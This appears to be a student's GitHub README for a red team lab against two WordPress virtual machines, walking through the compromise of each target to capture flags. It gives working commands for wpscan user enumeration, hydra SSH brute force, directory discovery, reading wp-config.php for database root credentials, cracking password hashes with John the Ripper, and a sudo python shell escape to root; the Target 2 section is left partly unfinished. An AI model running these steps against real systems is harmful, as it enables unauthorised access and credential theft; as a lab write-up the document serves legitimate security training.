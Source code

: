 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Final%20Proj%20Topology%20(Updated).png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/var/www/html/vendor)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1

Before we began, we ran an enumeration scan to uncover the users and hidden directories within the Target.  
- Command used: wpscan --url http://192.168.1.110/wordpress --wp-content-dir -at -eu 
- This command uncovered user names steven and michael.  
   ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/VM1%20wpscan%20michael.png)

- Once I obtained the usernames I was able to run a hydra command to obtain the password.  As noted above, port 22 is open so I wanted to obtain the password that could be used to SSH into the machine.
- Command used: hydra -l michael -P /usr/share/john/password.lst -vV 22:192.168.1.110
- This command exposed "michael" as the password for the username "michael".  Utilizing ssh michael@192.168.1.110 with password "michael" I was able to gain access to Target 1.  
   
- flag1.txt: 9bbcb33e11b80be759c4e844862482
   - dirbuster was used to uncover the file path that led to the flag exposure.  http://192.168.1.110/service.html.  Utilizing inspector it was uncovered the flag was exposed in plain text.
   - dirbuster command: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.110
   
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/flag%201%20vm1.png)
     
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
   - gobuster exposed directory path (flag was discovered at 192.168.1.110/vendor/PATH)
   - gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.110 
   
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/gobuster%20vm1.png)
     
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/VM2%20Index_Vendor.png)
     
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/dirbuster%20path%20to%20flag2.png)    
     
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
  - I was able to expose the username and password for the MySQL database once I discovered I had access to the wp-config.php file while logged in as michael.
  
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nano%20wp-config.png) 
    
![TODO:](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Find%20IP%20for%20mysql.png) 
    
- command: mysql -u root -p wordpress   
- Once I entered this command it prompted me to enter my password.  Using the root password above I was able to login to the mysql database.  
- From there I searched through the tables to see if I found anything interesting.  I found what I was looking for by running the following commands:
  - -> show databases; -> use wordpress -> show tables; -> select * from wp_posts
  - Flag 3 was exposed with this step.  

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Flag%203.png)

- flag4.txt: 715dea6c055b9fe3337544932f2941ce
  - I used the following commands to exposer the usernames and hash values of the user table:
  ->show tables; -> select * from wp_users; -> 
  
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/wp%20users%20steven%20VM1.png)
  
   -  2 usernames were displayed for michael and steven.  Based on me already having the password for michael I wanted to obtain the password for steven.  I exited back to my root login to run john the ripper.  I added the hash to a txt file I named "hash.txt".  I then ran john hash.txt to translate steven’s hash into password “pink84” 

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/steven%20password%20pink84.png)

-> logged in with steven’s credentials ->ssh steven@192.168.1.110 -> by entering sudo -l I was able to determine I could utilize python while logged in as steven via usr/bin/python.  This would also allow some priveledge escalation.  From there I accessed the tmp file with cd ~/tmp.  I then ran a wget command to obtain the exploit I wanted to use.  wget https://raw.githubusercontent.com/mzet-/linux.exploit-suggester/master/linux-exploit-suggester.sh.  Once the download was completed I entered ls to ensure the exploit was there les.sh was visible.  I then needed to update permissions to run the command by entering chmod 775 les.sh.  I then ran the command with ./les.sh.  This gave me the potential exploits to utilize.  
I then entered the following commands:
   - sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) 
   - This allowed me to gain root access.
   - Once logged in I used the command cd ~/root -> ls -> cat flag4.txt

![TODO:](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/flag%204%20from%20root.png)

Target 2
- flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
 - gobuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
 - Command used: 
   - gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115
   
![TODO:](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/gobuster%20vm2.png) 
   
![TODO:](html) 

![TODO:](html)    

- flag2.txt: 
 - Exploit Used
   ![TODO:](html) Identify the exploit used.
   ![TODO:](html) Include the command run.
   
- flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
 - Exploit Used
   ![TODO:](html) dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
   ![TODO:](html) dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
   
- flag4.txt: 
 - Exploit Used
   ![TODO:](html) Identify the exploit used.
   ![TODO:](html) Include the command run.

